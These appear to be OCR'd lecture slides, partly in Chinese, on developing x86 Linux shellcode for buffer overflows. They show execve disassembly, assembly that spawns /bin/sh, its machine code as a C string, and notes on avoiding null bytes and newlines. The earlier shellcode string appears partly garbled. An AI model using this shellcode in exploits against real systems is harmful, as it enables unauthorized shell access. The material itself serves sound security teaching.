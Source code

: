 ```
0x80002c8	<__execve+12>:	movl 0xc(%ebp),%ecx
    Copy	the	second	arg (address	of	name[])	into	ECX.
0x80002cb	<__execve+15>:	movl 0x10(%ebp),%edx
Copy	the	third	arg (null	pointer)	into	%edx.

0x80002ce	<__execve+18>:	int $0x80
    Change	into	kernel	mode.
```
把指令和数据改为字符串形式
```
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x46
\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\
xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\x
ff\xff\xff/bin/sh"
```

## shellcode开发
编写汇编程序
```
section .text
global _start
 
_start:
xor eax,eax
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
push eax
push ebx
mov ecx,esp
xor edx,edx
mov al,0xb
int 0x80
```
编译并获取机器码
```
char shellcode[]="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80";
```

## shellcode开发
### 面临的挑战
- 不是所有的字符都能作为shellcode
    - gets():遇到换行符就停止
    - strcpy():遇到`NULL`就停止
    - 。。。
- shellcode需要做相应的调整
    - 删除 \x00,空格，换行符。。。
    - 删除不能被打印的字符


# Thanks for watching!
